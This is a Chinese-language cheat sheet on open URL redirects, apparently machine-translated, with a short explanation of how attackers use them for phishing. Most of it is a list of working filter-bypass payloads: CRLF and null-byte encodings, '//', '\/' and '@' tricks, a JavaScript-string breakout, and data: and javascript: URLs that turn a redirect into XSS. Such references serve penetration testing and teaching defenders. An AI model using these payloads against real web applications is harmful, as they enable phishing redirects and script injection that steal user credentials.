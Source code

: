 # 开放URL重定向
	
当web应用程序接受可能导致web应用程序将请求重定向到不可信输入的URL时,多组重定向和转发是可能的。通过将不受信任的URL输入修改为恶意站点,攻击者可能成功启动网络钓鱼欺诈和窃取用户凭据。由于修改链接中的服务器名称与原始站点相同,网络钓鱼尝试可能具有更值得信任的外观。多组重定向和向前攻击还可以用于恶意创建一个URL,该URL将通过应用程序的访问控制检查然后交给攻击者通常无法访问的特权函数。
## 攻击
 
使用crlf绕过“JavaScript”黑名单关键字
```
java%0d%0ascript%0d%0a:alert(0)
```

使用“//”绕过“http”黑名单关键字
```
//google.com
```

使用“https :”绕过“/ / //”黑名单关键字
```
https:google.com
```

使用“\ /”绕过“/ /”黑名单关键字(浏览器,请参见\ / / )
```
\/\/google.com/
/\/google.com/ 
```


使用“% E3 % 80% 80%82”进行绕过。"黑名单中的字符
```
//google%E3%80%82com
```


使用空字节“%00”绕过黑名单筛选器
```
//google%00.com
```

使用“@”字符,浏览器将重定向至“@”后面的内容
```
http://www.theirsite.com@yoursite.com/
```

创建文件夹作为其域
```
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```


从今以后从打开的URL-如果它在一个js变量中
```
";alert(0);//
```

来自数据的XSS : //包装
```
http://www.example.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==
```

来自JavaScript : / /包装的XSS
```
http://www.example.com/redirect.php?url=javascript:prompt(1)
```


## 感谢
* filedescriptor
* https://www.owasp.org/index.php/Unvalidated_Redirects_and_Forwards_Cheat_Sheet
